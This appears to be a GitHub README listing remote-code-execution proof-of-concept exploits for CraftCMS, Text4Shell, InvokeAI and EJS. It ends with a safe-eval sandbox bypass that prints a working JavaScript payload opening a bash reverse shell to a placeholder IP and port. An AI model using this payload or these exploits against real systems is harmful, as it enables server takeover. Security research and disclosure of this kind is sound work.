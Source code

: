 # PoCs

## CVE-2025-32432
RCE PoC in CraftCMS

## CVE 2022-42889
Text4Shell RCE Python3 version

## CVE 2024-12029
Unauth RCE in InvokeAI. The vulnerability was discovered by @jackfromeast. Here is a Python3 version

## Node JS
### EJS v3.1.9 RCE (valid from EJS v2.6.2 to v3.1.9)
[Chain of Unrestricted Render Options](https://github.com/apostolovd/PoCs/blob/main/EJS/Chain%20of%20Unrestricted%20Render%20Options.pdf)

### safe-eval bypass
It works with valuesOf(), toLocaleString(), propertyIsEnumerable.call()
> (function() {try{valueOf()} catch(rce){rce.constructor.constructor('return process')().mainModule.require('child_process').execSync(`bash -c 'bash -i >& /dev/tcp/<IP>/<PORT> 0>&1'`); }})()
